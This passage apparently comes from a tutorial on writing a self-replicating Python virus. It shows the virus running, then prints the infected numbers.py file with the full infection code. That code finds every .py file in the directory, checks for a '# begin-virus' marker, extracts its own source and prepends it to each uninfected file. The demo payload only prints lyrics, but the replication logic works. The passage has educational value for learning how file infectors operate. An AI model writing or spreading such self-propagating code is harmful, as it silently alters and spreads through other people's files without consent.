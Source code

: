 When this program is executed it returns 10 numbers between 0 and 100, super useful! LOL!

Now, in the same directory, I have my virus. Let's execute it:

```bash
/playgrounds/python/first ❯ python ./first.py                                                                          02:30:42 PM
We are sick, fucked up and complicated
We are chaos, we can't be cured
```

As you can see, our virus has started and has executed the payload. Everything is fine, but what happened to our `[numbers.py](http://numbers.py)` file? It should be the victim of the infection, so let's see its code now.

```python
# begin-virus

import glob

def find_files_to_infect(directory = "."):
    return [file for file in glob.glob("*.py")]

def get_content_of_file(file):
    data = None
    with open(file, "r") as my_file:
        data = my_file.readlines()

    return data

def get_content_if_infectable(file):
    data = get_content_of_file(file)
    for line in data:
        if "# begin-virus" in line:
            return None
    return data

def infect(file, virus_code):
    if (data:=get_content_if_infectable(file)):
        with open(file, "w") as infected_file:
            infected_file.write("".join(virus_code))
            infected_file.writelines(data)

def get_virus_code():

    virus_code_on = False
    virus_code = []

    code = get_content_of_file(__file__)

    for line in code:
        if "# begin-virus\n" in line:
            virus_code_on = True

        if virus_code_on:
            virus_code.append(line)

        if "# end-virus\n" in line:
            virus_code_on = False
            break

    return virus_code

def summon_chaos():
    # the virus payload
    print("We are sick, fucked up and complicated\nWe are chaos, we can't be cured")
```